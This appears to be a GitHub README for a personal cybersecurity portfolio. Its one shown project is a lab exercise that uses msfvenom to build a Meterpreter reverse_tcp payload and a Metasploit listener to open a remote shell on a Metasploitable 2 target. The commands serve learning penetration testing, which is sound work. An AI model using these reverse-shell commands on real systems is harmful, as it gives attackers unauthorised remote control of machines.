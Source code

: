 # CyberSecurity-
Welcome to my Cybersecurity Projects repository! This collection showcases my work in ethical hacking, penetration testing, cryptography, digital forensics, vulnerability analysis, and cybersecurity research. Each project is designed to enhance security awareness, automate security processes, or analyze security vulnerabilities.

Project 1: Reverse Shell Payload Development
Tools: Kali Linux, Metasploit, msfvenomDescription: Simulated real-world attack scenarios by deploying a reverse shell payload from Kali Linux to Metasploitable 2. Established a remote command and control session, showcasing penetration testing techniques. This project enhanced my understanding of exploit development, network security, and ethical hacking methodologies.
Steps to Reproduce:

  Generate a payload using msfvenom:
    
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<port> -f elf > payload.elf
    
  Set up a listener on Metasploit:
   
    msfconsole
    use exploit/multi/handler
    set payload linux/x86/meterpreter/reverse_tcp
    set LHOST <your_ip>
    set LPORT <port>
    exploit
Execute the payload on the target machine.

This project should be carried out following all ethical considerations, and is meant only for educational purposes.
